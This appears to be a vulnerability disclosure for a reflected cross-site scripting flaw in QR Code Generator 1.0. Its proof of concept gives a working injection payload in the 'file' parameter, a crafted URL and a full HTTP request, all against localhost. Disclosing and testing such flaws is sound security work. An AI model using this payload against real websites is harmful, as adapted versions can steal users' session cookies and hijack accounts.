 # QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Exploit Title:** QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Date:** 2023-27-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/qr-code-generator-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/QR_CODE_GENERATOR_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
QR Code Generator 1.0 allows Reflected Cross-site Scripting via parameter 'file' in "/qr-codegen/download.php?file=author.png". QR Code Generator is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Copy the link address of "Download QR Code": "http://localhost/qr-codegen/download.php?file=author.png"
+ And navigate to `http://localhost/qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)>`
+ Use this payload: `"><iMg src=N onerror=alert(document.domain)>`
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'file' parameter:
```
GET /qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)> HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Referer: http://localhost/qr-codegen/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/6f94b7e5-6ca1-4818-9a32-9bd990afa2ef)
<br><br><br>
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/c9a8d093-c58a-4e6c-a848-92cfc4672ca8)
